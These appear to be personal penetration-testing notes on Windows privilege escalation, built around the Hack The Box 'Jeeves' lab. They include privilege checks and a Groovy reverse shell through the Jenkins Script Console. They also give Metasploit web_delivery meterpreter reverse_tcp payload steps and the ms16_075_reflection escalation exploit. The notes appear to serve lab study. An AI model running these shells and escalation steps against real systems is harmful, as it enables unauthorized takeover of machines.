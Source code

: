 ### Impersonation Privileges
meterpreter:
```bash
getprivs
```
shell:
```powershell
whoami /priv
```

```powershell
SeAssignPrimaryToken
SeImpersonatePrivilege
SeTakeOwnership
```

#### Potato Attacks
if these are available, we can try juicy potato / rotten potato

```powershell
SeAssignPrimaryToken
SeImpersonatePrivilege
```

## Jeeves htb
Groovy Reverse Shell - https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

in jenkings:
```
# search for Script Console
# there is a rev shell using groovy, change ip/port and set a listener

# save the systeminfo in case you need to run windows-exploit-suggester.py
./windows-exploit-suggester.py --database <db.xls> --systeminfo <systeminfo file>
```

> if u find vulns related to potato / hot potato / rotten potato. Try these first, cause they are gold


msfconsole

use exploit/multi/script/web_delivery:
```bash
set payload to windows/meterpreter/reverse_tcp
set target to psh (powershell)
set lhost, srvhost
```

> it will generate a payload For us
run this payload in the machine, it should generate a session in our meterpreter

```bash
run /post/multi/recon/local_exploit_suggester
```

## Escalation
Background the session:
```bash
use exploit/windows/local/ms16_075_reflection
set options
run
```

